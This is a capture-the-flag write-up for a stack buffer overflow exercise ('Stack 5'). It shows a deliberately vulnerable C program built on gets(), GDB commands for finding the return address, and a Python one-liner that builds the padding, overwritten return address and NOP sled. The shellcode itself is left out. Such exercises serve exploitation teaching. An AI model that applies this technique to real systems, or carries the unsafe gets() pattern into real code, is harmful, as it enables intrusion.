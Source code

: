 # Stack 5

Stack 5 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We can utilize the same padding offset we found in stack4 to overwrite the return address. We have to return from the main function to shellcode that we write to the stack. We will write a NOP sled before the shellcode, and set the main function return address to around the middle of the NOP sled. This will ensure that the exploit works even if the stack moves around due to inconsistencies.

To find our new return address, we can use GDB.

```shell
gdb stack5
(gdb) disassemble main
```
We find that the return instruction is at 0x080483da.
```shell
(gdb) break *0x080483da
(gdb) r
asldkjfl
```
Then, when the program hits the breakpoint, we check the stack.
```shell
(gdb) x/8wx $esp
```
The stack pointer is currently at 0xbffffcbc. This is before the return address is removed from the stack. We now want to decide on our new return address. If we make the NOP sled 30 operations long, then 0xbffffcd0 should work, since it would be around the middle of the NOP sled. Finally, at the end of the NOP sled, we must place shellcode. The problem suggests using someone else's shellcode 

```python
print("".join([chr(i)*4 for i in range(65,84)])+"\xd0\xfc\xff\xbf"+"\x90"*30)
```

